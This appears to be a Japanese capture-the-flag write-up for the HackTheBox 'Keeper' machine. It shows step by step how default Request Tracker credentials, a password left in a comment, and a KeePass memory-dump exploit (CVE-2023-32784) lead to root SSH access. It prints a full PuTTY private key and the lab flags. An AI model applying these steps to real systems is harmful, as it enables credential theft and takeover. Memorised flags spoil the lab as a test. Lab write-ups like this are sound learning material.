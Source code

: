 https://app.hackthebox.com/machines/Keeper

## STEP 1
```sh
└─$ rustscan -a 10.129.190.164 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where '404 Not Found' meets '200 OK'.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.190.164:22
Open 10.129.190.164:80
10.129.190.164 -> [22,80]
```


## STEP 2
80番にアクセス  
別のurlにアクセスするよう言われている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_01.png">  
/etc/hosts/を編集
```sh
└─$ echo '10.129.229.41 tickets.keeper.htb' | sudo tee -a /etc/hosts
10.129.229.41 tickets.keeper.htb
```
再度アクセス  
[リンク](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword)よりデフォルトクレデンシャル root/password が判明、ログインできた　　
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_02.png">  
Adminタブから lnorgaard というユーザを確認できるが、コメントからパスワードが「Welcome2023!」と判明した  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_03.png">  
22番が開いていたので、先ほどのクレデンシャルでsshログイン成功！ユーザフラグゲット
```sh
└─$ ssh lnorgaard@10.129.190.164    
The authenticity of host '10.129.190.164 (10.129.190.164)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.190.164' (ED25519) to the list of known hosts.
lnorgaard@10.129.190.164's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
86a82b35f5d9dbf56d69283eafbf4ff7
```


## STEP 3
ユーザフラグと同フォルダ内に、zipがあったのでkaliにダウンロード
```sh
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt

lnorgaard@keeper:~$ exit
logout
Connection to 10.129.190.164 closed.

└─$ scp lnorgaard@10.129.190.164:/home/lnorgaard/RT30000.zip .
lnorgaard@10.129.190.164's password: 
RT30000.zip
```
zipには、メモリダンプファイルと.kdbxがあった  
kdbxはkeepass（パスワード管理ツール）のパスワードが入ったファイルだそう
```sh
└─$ unzip RT30000.zip                  
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx

└─$ file KeePassDumpFull.dmp                                                                                 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type            

└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
```
.kdbxを開くにはkaliでは「keepass2」コマンドでできる  
実際に開くとパスワードが必要っぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_04.png">  
パスワードをクラックしてみたが、失敗．．．
```sh
└─$ keepass2john passcodes.kdbx > keepass.txt

└─$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass keepass.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:23 DONE (2025-07-12 07:25) 0g/s 153.5p/s 153.5c/s 153.5C/s notused..sss
Session completed.
```
先ほどのブラウザで、keepassのissueに関するチケットを lnorgaard が作成したこと確認  
とういことはzip内のメモリダンプはkeepassのクラッシュダンプね  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_05.png">  
ここでkeepassには、CVE-2023-32784が存在しクラッシュダンプからパスワードを復元できる脆弱性があるらしい  
PoCを試してみると文字列は抽出できたが、何文字が欠落しているっぽい
```sh
└─$ wget https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
--2025-07-12 10:30:42--  https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14948 (15K) [text/plain]
Saving to: ‘keepass_dump.py’

keepass_dump.py                                            100%[========================================================================================================================================>]  14.60K  --.-KB/s    in 0s      

2025-07-12 10:30:43 (77.3 MB/s) - ‘keepass_dump.py’ saved [14948/14948]

└─$ python3.13 keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
ぐぐってみると、「rødgrød med fløde」の文字を発見  
deeplで翻訳してみるとデンマーク語らしい、どうやって入力するねん  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_06.png">  
「rødgrød med fløde」で開くことができた、どうやらputty形式のssh秘密鍵が保存されている
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_07.png">  
putty形式のssh秘密鍵を保存
```sh
└─$ cat putty                                                                                                           
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
ssh秘密鍵に変換してrootログイン成功！ルートフラグゲット！
```sh
└─$ puttygen putty -O private-openssh -o ida_rsa

└─$ ssh -i ida_rsa root@10.129.190.164
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
dd05820dc970d89af4d2893b0b9a3027
